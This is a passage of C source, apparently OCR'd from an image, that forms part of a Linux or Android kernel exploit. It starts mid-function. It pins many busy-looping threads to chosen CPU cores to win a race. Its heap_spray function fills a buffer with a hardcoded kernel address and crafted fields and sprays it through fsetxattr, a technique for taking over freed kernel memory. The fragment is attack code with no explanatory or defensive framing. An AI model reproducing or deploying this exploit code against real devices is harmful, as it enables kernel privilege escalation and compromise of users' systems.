 ```c
        int index = *(int *)arg;
	cpu_set_t mask;
    	CPU_ZERO(&mask);
    	CPU_SET(index, &mask);
	pid_t pid = gettid();
	syscall(__NR_sched_setaffinity, pid, sizeof(mask), &mask);
	//printf("[+] cpu:%d, tid:%d, freeze\n", index, pid);
	while (!fillFlag)
	{
		index++;
	}

        return arg;
}

void fillOtherCpu()
{
	int cores = getCores();
	printf("[+] cpu count:%d\n", cores);
	pthread_t id_cpu1, id1_cpu1, id2_cpu1, id3_cpu1, id4_cpu1, id5_cpu1, id6_cpu1, id7_cpu1;
	pthread_t id_cpu2, id1_cpu2, id2_cpu2, id3_cpu2, id4_cpu2, id5_cpu2, id6_cpu2, id7_cpu2;
	pthread_t id_cpu3, id1_cpu3, id2_cpu3, id3_cpu3, id4_cpu3, id5_cpu3, id6_cpu3, id7_cpu3;
	int cpu1 = 0;
	int cpu2 = 2;
	int cpu3 = 3;
	pthread_create(&id_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id1_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id2_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id3_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id4_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id5_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id6_cpu1, NULL, fillCpu, &cpu1);
	pthread_create(&id7_cpu1, NULL, fillCpu, &cpu1);

	pthread_create(&id_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id1_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id2_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id3_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id4_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id5_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id6_cpu2, NULL, fillCpu, &cpu2);
	pthread_create(&id7_cpu2, NULL, fillCpu, &cpu2);

	pthread_create(&id_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id1_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id2_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id3_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id4_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id5_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id6_cpu3, NULL, fillCpu, &cpu3);
	pthread_create(&id7_cpu3, NULL, fillCpu, &cpu3);
	sleep(10);
}

void heap_spray()
{
	char buff[BUFF_SIZE];
	memset(buff, 0 ,BUFF_SIZE);
	*(size_t *)((char *)buff + 64) = 20;
	*(size_t *)((char *)buff + 88) = 0xffffffc001e50834;
	fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);
}

```